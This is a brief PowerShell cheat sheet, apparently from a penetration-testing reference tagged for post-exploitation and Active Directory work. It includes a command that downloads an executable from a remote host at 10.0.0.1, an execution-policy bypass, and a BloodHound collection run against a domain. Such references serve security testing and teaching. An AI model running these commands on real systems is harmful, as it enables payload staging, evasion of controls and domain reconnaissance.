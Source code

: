 ```yaml
---
title: PowerShell
desc: Run “pwsh” to use it on Linux.
tags: [ActiveDirectory, PostExploitation, Windows, WinRM]
alts: [PowerView]
website:
render_with_liquid: false
---
```


## Basic Commands

```shell
# Version Info
PS> $PSVersionTable

# Download from Remote (wget for Linux)
PS> Invoke-WebRequest -Uri http://10.0.0.1:8000/example.exe -OutFile .\example.exe
```

<br />

## PowerShell on Linux

```sh
pwsh
```

<br />

## PowerShell on Windows

```powershell
# Start and bypass the PowerShell execution policy (enable to run scripts)
C:\Users\Administrator> powershell -ep bypass

# Show hidden files and folders 
PS C:\Users\Administrator> dir -Force

# Display the content of the file
PS C:\Users\Administrator> Get-Content sample.txt

# Bloodhound data collection
PS C:\Users\Administrator> Invoke-BloodHound -CollectionMethod All -Domain sample.domain -ZipFileName sample.zip
```